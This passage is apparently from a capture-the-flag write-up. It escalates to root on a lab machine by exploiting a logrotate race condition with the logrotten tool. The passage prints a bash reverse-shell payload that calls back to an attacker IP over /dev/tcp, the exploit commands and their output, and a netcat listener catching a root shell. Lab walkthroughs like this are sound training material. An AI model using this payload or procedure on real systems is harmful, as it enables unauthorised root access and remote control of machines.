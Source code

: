 Also, we need **root to log in** to trigger our payload. And oddly enough, checking with the `last` command, that's exactly what root seems to be doing every minute.

### Using Logrotten

[Logrotten](https://github.com/whotwagner/logrotten) is a software that helps us to exploit logrotate as described above.

First, we need to prepare a **bash script payload**.

Our `payloadfile` is a shell script that pushes a reverse bash shell to us if the user who logs in is root (userid is 0).

```
#!/bin/bash
if [ `id -u` -eq 0 ]; then (bash -i >& /dev/tcp/10.10.X.X/8888 0>&1 &); fi
```

Then, we use `logrotten` with the following syntax.

```
$ ./logrotten -p ./payloadfile  /home/reader/backups/access.log`
Waiting for rotating /home/reader/backups/access.log...
```

However, we get stuck here. Apparently, `access.log` is not being rotated.

Let's review what we know.

We know that logrotate is forced to run every five seconds, using the config file `/root/log.cfg`.

Unfortunately, we cannot view the config file.

Our logrotten attack is stuck at waiting for a rotation. This means that somehow the backup directory is not being rotated.

Possible reasons:

* `backups` directory is not included in `log.cfg`
* The `ifempty` directive is active, meaning logrotate will not rotate an empty file.

Assuming second reason is true, let's write something to `access.log` to trigger a rotate.

`echo test > access.log`

Yes, the rotate was triggered as logrotate did not find an empty log file this time.

```
reader@book:/tmp$ ./logrotten -p ./payloadfile /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```

As root is logging in every second, we got a reverse shell connection almost immediately.

```
# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.176] 45694
root@book:~# whoami
whoami
root
```
